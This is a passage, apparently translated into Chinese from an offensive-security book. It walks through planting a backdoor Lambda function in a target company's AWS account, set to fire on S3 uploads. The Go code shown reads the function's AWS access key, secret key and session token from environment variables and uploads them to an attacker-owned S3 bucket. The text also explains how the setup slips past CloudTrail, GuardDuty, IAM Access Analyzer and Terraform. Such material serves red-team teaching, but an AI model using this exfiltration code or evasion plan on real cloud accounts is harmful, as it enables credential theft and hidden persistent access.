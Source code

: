 翻译成 AWS 行话，监视程序将由一个 Lambda 函数组成，该函数由我们选择的事件触发。例如，我们可以选择一个每天上午 10 点触发的 CloudWatch 事件，或者一个接收到预定义请求的负载均衡器。我们选择一个事件，该事件会在 S3 桶接收到新对象时触发。MXR Ads 和 GP 都使用这个相同的触发器，因此我们有更高的机会与其融合。一旦执行，Lambda 将转储其附加的角色凭证，并将其发送到我们自己的 S3 桶。我们收到的凭证有效期为一小时，但足以恢复持久的访问权限。

让我们回顾一下我们的检测清单：Lambda 函数将由一些频繁发生的内部事件触发（在这种情况下，当对象上传到 MXR Ads 的 S3 桶时），并且作为回应，将执行一个相当简单的 put-object 调用，将包含其凭证的文件存储到远程桶。IAM Access Analyzer 几乎不会有任何反应。

Terraform 在设置阶段不会发出强烈的警告，因为大多数资源将被创建，而不是修改。即使源桶已经在状态中声明，从技术上讲，我们仍将添加一个 `aws_s3_bucket_notification` 资源，这是 Terraform 中一个完全独立的实体。我们所需要做的就是选择一个没有 Terraform 通知设置的桶，之后就可以继续操作了。

至于 CloudTrail，它将记录的唯一事件是可信服务 *lambda.amazonaws.com* 模拟角色执行 Lambda。这是任何 Lambda 执行中固有的琐碎事件，不会引起 Insights 和 GuardDuty 的注意。

一切看起来都很顺利！

### 执行程序

让我们进入实现阶段。Lambda 将运行的程序是一个直接的 Go 二进制文件，按照刚才描述的关键步骤执行。完整的实现可以在本书的代码库中找到（[`bit.ly/2Oan7I7`](http://bit.ly/2Oan7I7)），以下是主要逻辑的简要概述。

每个注定要在 Lambda 环境中运行的 Go 程序都会从相同的模板 `main` 函数开始，注册 Lambda 的入口点（在本例中为 `HandleRequest`）：

```
func main() {
    lambda.Start(HandleRequest)
}
```

接下来，我们有一个经典的设置，用来构建一个 HTTP 客户端并创建远程 S3 URL 以提交我们的响应：

```
const S3BUCKET="mxrads-analytics"
func HandleRequest(ctx context.Context, name MyEvent) (string, error) {
    client := &http.Client{}
    respURL := fmt.Sprintf("https://%s.s3.amazonaws.com/setup.txt", S3BUCKET)
```

我们从环境变量中转储 Lambda 的角色凭证，并将其发送到我们的远程桶：

```
 accessKey := fmt.Sprintf(`
        AWS_ACCESS_KEY_ID=%s
        AWS_SECRET_ACCESS_KEY=%s
        AWS_SESSION_TOKEN=%s"`,
            os.Getenv("AWS_ACCESS_KEY_ID"),
            os.Getenv("AWS_SECRET_ACCESS_KEY"),
            os.Getenv("AWS_SESSION_TOKEN"),
        )
    uploadToS3(s3Client, S3BUCKET, "lambda", accessKey)
```

`uploadToS3` 方法是一个简单的 PUT 请求，发送到之前定义的 URL，因此从源代码中可以很容易理解其实现，源代码总共有大约 44 行。

我们编译代码，然后将二进制文件压缩：

```
root@Point1:lambda/# **make**
root@Point1:lambda/# **zip function.zip function**
```
